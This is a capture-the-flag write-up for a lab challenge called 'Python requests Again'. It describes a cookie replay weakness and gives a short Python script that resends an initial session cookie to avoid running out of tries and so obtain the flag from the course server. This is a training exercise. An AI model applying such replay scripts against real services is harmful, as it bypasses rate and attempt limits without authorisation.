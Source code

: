# Challenge `Python requests Again` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to replay attack

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23054`

- Impact: What results of exploiting this vulnerability
  - Allows the user to resend cookies to get the correct result

## Steps to reproduce

1. Start a `requests` session in `http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/hello`
2. Get the initial cookie, with the remaining number of tries
3. Extract the objective and current total from the page text
4. Repeatedly access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/more`, resending the initial cookie in order to not run out of tries, until the total equals the objective
5. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/finish` to get the flag

The code used was the following:

```py
  import requests
  import re

  res = requests.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/hello")
  cookies = res.cookies

  res = requests.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/more", cookies=cookies)
  nums = re.findall(r'\d+', res.text)

  while nums[2] != nums[1]:
      res = requests.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/more", cookies=cookies)
      nums = re.findall(r'\d+', res.text)

  finish = requests.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23054/finish", cookies=cookies)
  print(finish.text)
```
